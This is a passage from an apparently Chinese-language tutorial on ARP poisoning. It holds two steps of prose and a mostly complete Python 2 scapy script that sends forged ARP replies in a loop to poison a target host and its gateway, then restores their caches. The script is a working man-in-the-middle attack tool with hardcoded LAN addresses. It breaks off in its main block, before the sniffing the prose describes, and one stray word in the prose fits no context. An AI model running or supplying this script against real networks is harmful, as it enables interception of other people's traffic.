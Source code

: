 3. 启动感染线程来执行ARP感染攻击。浙江启动抓包的嗅探器。**poison_target**函数建立ARP请求，以感染目的IP和网关（使用循环）。

4. 记录抓到的包并恢复网络。**restore_target**函数把ARP数据包发送到网络广播地址，以重置网关和目标及其的ARP缓存。


```python
from scapy.all import *
from scapy.error import Scapy_Exception
import os
import sys
import threading
import signal

INTERFACE       =   'wlp1s0'
TARGET_IP       =   '192.168.1.107'
GATEWAY_IP      =   '192.168.1.1'
PACKET_COUNT    =   1000

def restore_target(gateway_ip, gateway_mac, target_ip, target_mac):
    print '[*] Restoring targets...'
    send(ARP(op=2, psrc=gateway_ip, pdst=target_ip, hwdst='ff:ff:ff:ff:ff:ff', \
        hwsrc=gateway_mac), count=5)
    send(ARP(op=2, psrc=target_ip, pdst=gateway_ip, hwdst="ff:ff:ff:ff:ff:ff", \
        hwsrc=target_mac), count=5)
    os.kill(os.getpid(), signal.SIGINT)

def get_mac(ip_address):
    response, unanswered = srp(Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(pdst=ip_address), \
        timeout=2, retry=10)
    for s, r in response:
        return r[Ether].src
    return None

def poison_target(gateway_ip, gateway_mac, target_ip, target_mac):
    poison_target = ARP()
    poison_target.op = 2
    poison_target.psrc = gateway_ip
    poison_target.pdst = target_ip
    poison_target.hwdst = target_mac
    poison_gateway = ARP()
    poison_gateway.op = 2
    poison_gateway.psrc = target_ip
    poison_gateway.pdst = gateway_ip
    poison_gateway.hwdst = gateway_mac

    print '[*] Beginning the ARP poison. [CTRL-C to stop]'
    while 1:
        try:
            send(poison_target)
            send(poison_gateway)
            time.sleep(2)

        except KeyboardInterrupt:
            restore_target(gateway_ip, gateway_mac, target_ip, target_mac)

    print '[*] ARP poison attack finished.'
    return

if __name__ == '__main__':
    conf.iface = INTERFACE
    conf.verb = 0
    print "[*] Setting up %s" % INTERFACE
    GATEWAY_MAC = get_mac(GATEWAY_IP)
    if GATEWAY_MAC is None:
        print "[-] Failed to get gateway MAC. Exiting."
```